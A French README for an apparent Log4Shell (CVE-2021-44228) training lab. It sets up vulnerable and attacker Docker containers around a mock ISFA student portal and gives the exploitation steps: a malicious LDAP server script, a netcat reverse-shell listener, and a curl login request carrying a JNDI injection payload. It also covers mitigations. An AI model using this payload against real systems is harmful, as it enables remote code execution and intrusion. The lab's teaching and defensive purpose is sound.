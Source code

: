 # Log4Shell : **Setup and Exploitation Guide**

Ce projet est conçu pour démontrer et comprendre la vulnérabilité critique **Log4Shell** (CVE-2021-44228), qui affecte la bibliothèque **Apache Log4j 2**. Cette vulnérabilité permet à un attaquant d'exécuter du code arbitraire à distance en exploitant un mauvais traitement des messages de log.

L'application web utilisée pour cette démonstration est un **portail étudiant** de l'**ISFA (Institut de Science Financière et d'Assurances)**. Ce portail permet aux étudiants de télécharger leurs documents scolaires et de consulter leurs notes. Dans cette démonstration, nous allons exploiter cette application pour démontrer la vulnérabilité Log4Shell.

### **Qu’est-ce que Log4j ?**

Log4j est une bibliothèque open-source réputée, conçue pour gérer la journalisation des événements dans les applications Java. Créée par la fondation Apache, elle est largement utilisée par les développeurs pour enregistrer des messages, des exceptions et d’autres informations utiles sur le fonctionnement des applications.

### **Présentation de la vulnérabilité Log4j (Log4Shell)**

Log4Shell, identifiée par le CVE-2021-44228, est une vulnérabilité critique dans Log4j qui permet l’exécution de code à distance (Remote Code Execution ou RCE). Cette faille exploite la fonctionnalité de résolution des expressions JNDI (Java Naming and Directory Interface) dans Log4j, permettant à un attaquant de contrôler l’exécution du code sur le système cible. JNDI est une interface de programmation d’applications (API) que les applications Java utilisent pour accéder aux ressources hébergées sur des serveurs externes.

L’injection JNDI prend en charge différents types de répertoires, comme Domain Name Service (DNS), Lightweight Directory Access Protocol (LDAP) qui fournissent de précieuses informations comme les appareils réseau de l’organisation, Remote Method Invocation (RMI), et Inter-ORB Protocol (IIOP).

### Fonctionnement technique

- Lorsqu’une application utilise Log4j pour enregistrer une entrée utilisateur non validée contenant une expression JNDI malveillante, Log4j tente de résoudre cette expression en accédant à une ressource externe.
- L’attaquant peut alors fournir une URL pointant vers un serveur malveillant qui renvoie un payload exécutable.
- Une fois le payload chargé et exécuté, l’attaquant obtient un contrôle total du système.

## Prérequis

- **Docker** installé sur votre machine.

## **Setting Up the Application**

### Step 1 : Téléchargez les images Docker

Exécutez les commandes suivantes pour télécharger les images nécessaires depuis Docker Hub :

```
docker pull eddycaron/diable:log4shell_vuln_app
docker pull eddycaron/diable:log4shell_attacker
```

### Step 2 : Créez un réseau Docker

Créez un réseau Docker pour que les conteneurs puissent communiquer entre eux :

```
docker network create --driver bridge --subnet 172.25.0.0/16 net1
```

### Step 3 : Lancez l’application vulnérable

### **Sur Linux :**

```
docker run -d --name vuln_app --network net1 --ip 172.25.0.10 eddycaron/diable:log4shell_vuln_app
```

Accédez à l’application vulnérable via :

```
http://172.25.0.10:8080
```

### Sur Windows :

```
docker run -d --name vuln_app -p 8080:8080 --network net1 --ip 172.25.0.10 eddycaron/diable:log4shell_vuln_app
```

Accédez à l’application vulnérable via :

```
http://localhost:8080
```

### Step 4 : Lancez la machine attaquante

Exécutez le conteneur de l’attaquant :

```
docker run -d --name attacker --network net1 --ip 172.25.0.20 eddycaron/diable:log4shell_attacker
```

## Exploiter la vulnérabilité

### Initialisez l’environnement de l’attaquant

Connectez-vous au conteneur de l’attaquant et lancez le script d’exploitation :

```
docker exec -it attacker bash
python3 exploit.py --userip 172.25.0.20 --webport 8000 --lport 9001
```

### Configurez un listener

Dans le conteneur de l’attaquant, lancez un listener avec Netcat :

```
docker exec -it attacker bash
nc -lvnp 9001
```

### Envoyez une requête malveillante

Envoyez une requête POST malveillante à l’application vulnérable :

```
docker exec -it attacker bash
curl -X POST -d "uname=\${jndi:ldap://172.25.0.20:1389/a}&password=blablaisfa" http://172.25.0.10:8080/login
```

### Observez le résultat

Dans le listener Netcat, vous recevrez une connexion depuis le serveur cible. Voici quelques commandes pour interagir avec le système compromis :

- **Afficher l'utilisateur actuel** :
    
    ```bash
    whoami
    ```
    
- **Afficher le répertoire de travail actuel** :
    
    ```bash
    pwd
    ```
    
- **Trouver le flag caché** :
    
    Explorez les répertoires Linux pour trouver le flag caché.
    

**Indice :**

Le flag est situé dans le répertoire contenant les utilisateurs de la machine. 😉

### Fonctionnement de `exploit.py`

Le fichier `exploit.py` agit comme un serveur LDAP malveillant. Voici ce qu'il fait :

1. Il écoute sur un port défini (8000) pour capturer les requêtes envoyées par l'application vulnérable.
2. Lorsque l’exploit est injectée dans l'application, elle déclenche une requête LDAP vers le serveur malveillant.
3. Le script envoie une réponse contenant un objet Java malveillant, ce qui exécute du code arbitraire sur le serveur ciblé.
4. Cette interaction permet d'établir une connexion avec le listener Netcat, établissant ainsi un accès non autorisé.

# **Impact**

- Exécution de code à distance (**RCE**) avec privilèges de l'application cible.
- Compromission complète des systèmes affectés.
- Mouvement latéral possible pour attaquer d'autres services internes.
- Exfiltration de données sensibles via des requêtes malveillantes.
- Déploiement de ransomwares ou de **crypto-miners** sur les serveurs.

# **Mitigation**

- **Mise à jour** vers Log4j **2.17.1** ou version ultérieure.
- **Désactiver JNDI Lookup** via la configuration (`log4j2.formatMsgNoLookups=true`).
- **Filtrer et surveiller** les journaux pour détecter les tentatives d’exploitation.
- **Mettre en place un WAF** avec des règles spécifiques pour bloquer les payloads malveillants.
- **Restreindre les connexions sortantes** pour empêcher l’accès aux serveurs malveillants.

## Avertissement

**L'utilisation de ce projet pour exploiter des systèmes sans autorisation est strictement interdite.** Assurez-vous de toujours avoir les droits nécessaires avant d'utiliser des outils de sécurité offensive.
